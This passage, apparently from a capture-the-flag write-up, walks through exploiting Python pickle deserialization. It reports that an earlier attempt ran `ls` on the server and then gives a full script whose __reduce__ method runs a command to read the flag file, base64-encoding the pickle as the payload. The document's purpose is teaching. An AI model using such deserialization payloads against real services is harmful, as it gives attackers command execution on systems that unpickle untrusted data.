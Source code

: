 Wait, this should be correct! Maybe python3 and python2 behave differently when generating the serialized object? The server uses python2 so let's try with that version. 

Here we go! I have successfully executed the `ls` command. Now let's update the script and obtain the flag!

```python
#!/usr/bin/env python
import pickle
import pickletools
import base64
import os
import subprocess

class anti_pickle_serum(object):
	def __reduce__(self):
		cmd = ['cat', 'flag_wIp1b']
		return subprocess.check_output, (cmd,)

exploit_obj = anti_pickle_serum()
raw_pickle = pickle.dumps({"serum" : exploit_obj}, protocol=0)

optimed_pickle = pickletools.optimize(raw_pickle)
pickletools.dis(optimed_pickle)

payload = base64.b64encode(raw_pickle)
print(payload)
```

***


{% include share.html %}


[^1]: https://davidhamann.de/2020/04/05/exploiting-python-pickle/
